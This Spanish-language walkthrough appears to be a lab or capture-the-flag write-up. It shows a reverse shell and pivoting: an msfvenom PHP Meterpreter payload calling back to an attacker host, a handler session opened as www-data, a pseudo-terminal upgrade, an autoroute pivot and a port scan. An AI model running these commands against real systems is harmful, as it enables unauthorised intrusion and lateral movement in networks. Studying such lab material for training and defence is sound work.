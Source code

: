 
```
msfvenom -p php/meterpreter_reverse_tcp lhost=10.13.37.10 lport=4444  > shell.php
```

### shell meterpreter

inicio metasploit para poner en escucha con el exploit `exploit/multi/handler`.

```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.13.37.10:4444
[*] Meterpreter session 2 opened (10.13.37.10:4444 -> 172.16.37.234:55048) at 2021-09-01 20:54:19 -0500

meterpreter > getuid
Server username: www-data (33)
```

### Pseudo terminal

```
meterpreter > shell -t /bin/bash
[*] env TERM=xterm HISTFILE= /usr/bin/script -qc /bin/bash /dev/null
Process 2162 created.
Channel 2 created.

www-data@xubuntu:/var/www/html$ tty
tty
/dev/pts/3
```

----

## Pivoting

 Pivoting es la técnica en la que, a través de una máquina ya comprometida, se intenta escanear y atacar otras máquinas de otro segmento de red no accesible directamente por el atacante.  
 En Metasploit existe el módulo denominado `autoroute` con el que podremos crear fácilmente una ruta a través de una sesión de Meterpreter, consiguiendo así pivotar dentro de la red objetivo.

```
meterpreter > run autoroute -s 172.16.50.0/24

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.50.0/255.255.255.0...
[+] Added route to 172.16.50.0/255.255.255.0 via 172.16.37.234
[*] Use the -p option to list all active routes
```

Si escaneamos el nuevo rango de IP's. Encontraremos que `172.16.50.222` se encuentra activo.

```
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.16.50.1/24
set THREADS 50
run
```
